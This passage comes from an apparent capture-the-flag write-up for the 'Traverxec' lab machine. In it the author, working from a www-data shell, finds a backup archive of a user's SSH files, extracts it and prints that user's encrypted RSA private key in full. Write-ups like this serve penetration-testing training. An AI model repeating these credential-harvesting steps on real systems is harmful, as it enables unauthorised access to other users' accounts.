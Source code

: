 Checking out `/home/david/public_www` we find a `/protected-file-area` directory, and inside we find what appear to be SSH keys:

```text
www-data@traverxec:/home/david/public_www/protected-file-area$ ls
ls
backup-ssh-identity-files.tgz
www-data@traverxec:/home/david/public_www/protected-file-area$ tar -tvf /home/david/public_www/protected-file-area/backup-ssh-identity-files.tgz
<w/protected-file-area/backup-ssh-identity-files.tgz           
drwx------ david/david       0 2019-10-25 17:02 home/david/.ssh/
-rw-r--r-- david/david     397 2019-10-25 17:02 home/david/.ssh/authorized_keys
-rw------- david/david    1766 2019-10-25 17:02 home/david/.ssh/id_rsa
-rw-r--r-- david/david     397 2019-10-25 17:02 home/david/.ssh/id_rsa.pub
```

Let's go ahead and extract the id_rsa file:

```text
www-data@traverxec:/home/david/public_www/protected-file-area$ mkdir /tmp/ssh-keys
<public_www/protected-file-area$ mkdir /tmp/ssh-keys           
www-data@traverxec:/home/david/public_www/protected-file-area$ tar zxvf /home/david/public_www/protected-file-area/backup-ssh-identity-files.tgz -C /tmp/ssh-keys
<area/backup-ssh-identity-files.tgz -C /tmp/ssh-keys           
home/david/.ssh/
home/david/.ssh/authorized_keys
home/david/.ssh/id_rsa
home/david/.ssh/id_rsa.pub
www-data@traverxec:/home/david/public_www/protected-file-area$ cat /tmp/ssh-keys/home/david/.ssh/id_rsa
<file-area$ cat /tmp/ssh-keys/home/david/.ssh/id_rsa           
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,477EEFFBA56F9D283D349033D5D08C4F

seyeH/feG19TlUaMdvHZK/2qfy8pwwdr9sg75x4hPpJJ8YauhWorCN4LPJV+wfCG
tuiBPfZy+ZPklLkOneIggoruLkVGW4k4651pwekZnjsT8IMM3jndLNSRkjxCTX3W
KzW9VFPujSQZnHM9Jho6J8O8LTzl+s6GjPpFxjo2Ar2nPwjofdQejPBeO7kXwDFU
RJUpcsAtpHAbXaJI9LFyX8IhQ8frTOOLuBMmuSEwhz9KVjw2kiLBLyKS+sUT9/V7
HHVHW47Y/EVFgrEXKu0OP8rFtYULQ+7k7nfb7fHIgKJ/6QYZe69r0AXEOtv44zIc
Y1OMGryQp5CVztcCHLyS/9GsRB0d0TtlqY2LXk+1nuYPyyZJhyngE7bP9jsp+hec
dTRqVqTnP7zI8GyKTV+KNgA0m7UWQNS+JgqvSQ9YDjZIwFlA8jxJP9HsuWWXT0ZN
6pmYZc/rNkCEl2l/oJbaJB3jP/1GWzo/q5JXA6jjyrd9xZDN5bX2E2gzdcCPd5qO
xwzna6js2kMdCxIRNVErnvSGBIBS0s/OnXpHnJTjMrkqgrPWCeLAf0xEPTgktqi1
Q2IMJqhW9LkUs48s+z72eAhl8naEfgn+fbQm5MMZ/x6BCuxSNWAFqnuj4RALjdn6
i27gesRkxxnSMZ5DmQXMrrIBuuLJ6gHgjruaCpdh5HuEHEfUFqnbJobJA3Nev54T
fzeAtR8rVJHlCuo5jmu6hitqGsjyHFJ/hSFYtbO5CmZR0hMWl1zVQ3CbNhjeIwFA
bzgSzzJdKYbGD9tyfK3z3RckVhgVDgEMFRB5HqC+yHDyRb+U5ka3LclgT1rO+2so
uDi6fXyvABX+e4E4lwJZoBtHk/NqMvDTeb9tdNOkVbTdFc2kWtz98VF9yoN82u8I
Ak/KOnp7lzHnR07dvdD61RzHkm37rvTYrUexaHJ458dHT36rfUxafe81v6l6RM8s
9CBrEp+LKAA2JrK5P20BrqFuPfWXvFtROLYepG9eHNFeN4uMsuT/55lbfn5S41/U
rGw0txYInVmeLR0RJO37b3/haSIrycak8LZzFSPUNuwqFcbxR8QJFqqLxhaMztua
4mOqrAeGFPP8DSgY3TCloRM0Hi/MzHPUIctxHV2RbYO/6TDHfz+Z26ntXPzuAgRU
/8Gzgw56EyHDaTgNtqYadXruYJ1iNDyArEAu+KvVZhYlYjhSLFfo2yRdOuGBm9AX
JPNeaxw0DX8UwGbAQyU0k49ePBFeEgQh9NEcYegCoHluaqpafxYx2c5MpY1nRg8+
XBzbLF9pcMxZiAWrs4bWUqAodXfEU6FZv7dsatTa9lwH04aj/5qxEbJuwuAuW5Lh
hORAZvbHuIxCzneqqRjS4tNRm0kF9uI5WkfK1eLMO3gXtVffO6vDD3mcTNL1pQuf
SP0GqvQ1diBixPMx+YkiimRggUwcGnd3lRBBQ2MNwWt59Rri3Z4Ai0pfb1K7TvOM
j1aQ4bQmVX8uBoqbPvW0/oQjkbCvfR4Xv6Q+cba/FnGNZxhHR8jcH80VaNS469tt
VeYniFU/TGnRKDYLQH2x0ni1tBf0wKOLERY0CbGDcquzRoWjAmTN/PV2VbEKKD/w
-----END RSA PRIVATE KEY-----
```

